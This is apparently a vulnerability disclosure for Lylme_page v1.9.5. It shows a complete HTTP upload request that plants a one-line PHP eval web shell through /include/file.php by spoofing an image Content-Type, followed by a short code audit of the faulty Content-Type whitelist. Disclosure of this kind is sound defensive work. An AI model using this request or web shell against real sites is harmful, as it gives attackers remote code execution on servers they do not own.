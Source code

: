 
Lylme_pagev1.9.5 has a file upload vulnerability in the front-end of the website.

In the/apply/index.php directory, grab packages uploaded from website icons

![image-20240506161607812](https://cdn.jsdelivr.net/gh/n2ryx/Picture-bed@master/typora/image-20240506161607812.png)

And construct it accordingly

```
POST /include/file.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
X-Requested-With: XMLHttpRequest
Origin: http://127.0.0.1
Accept: application/json, text/javascript, */*; q=0.01
Cookie: X8Kk_2132_logintime=1713010988; X8Kk_2132_saltkey=sb50OXyE; X8Kk_2132_lastvisit=1713007324; XDEBUG_SESSION=PHPSTORM; admin_hkcms_lang=zh-cn; index_hkcms_lang=zh-cn; HKCMSSESSID=e0594fc037c66b2dcc477b032c98de35; PHPSESSID=jbl3he9k1riq937d993fc7luhi; admin_token=32cffj4RQkD5uVfTy3J25h8COeBWUDMFyPZMgE%2BSw2eAI1O%2FgJsuTSHq0vIvSxsREnWeNg59eXDvZU%2F6gdzPT3acrQ
Content-Type: multipart/form-data; boundary=---------------------------207262699182048909098055515
Sec-Fetch-Mode: cors
Accept-Encoding: gzip, deflate, br
Sec-Fetch-Dest: empty
Sec-Fetch-Site: same-origin
Referer: http://127.0.0.1/apply/
Content-Length: 237

-----------------------------207262699182048909098055515
Content-Disposition: form-data; name="file"; filename="mm.php"
Content-Type: image/png

<?php eval($_POST[1]);?>
-----------------------------207262699182048909098055515--

```

![image-20240506161508365](https://cdn.jsdelivr.net/gh/n2ryx/Picture-bed@master/typora/image-20240506161508365.png)

Access and exploit this vulnerability

![image-20240506161502190](https://cdn.jsdelivr.net/gh/n2ryx/Picture-bed@master/typora/image-20240506161502190.png)

Code Audit

Image upload code /include/file.php

![image-20240517220138586](https://cdn.jsdelivr.net/gh/n2ryx/Picture-bed@master/typora/image-20240517220138586.png)

line 102, validate'file_type will be called to verify the file type (Content Type).

![image-20240517220147546](https://cdn.jsdelivr.net/gh/n2ryx/Picture-bed@master/typora/image-20240517220147546.png)

Extract the file extension in lines 105 and 106, concatenate the file name in line 110, and return information such as the path of the image. Therefore, as long as the Content Type type is on this whitelist, any file can be uploaded.
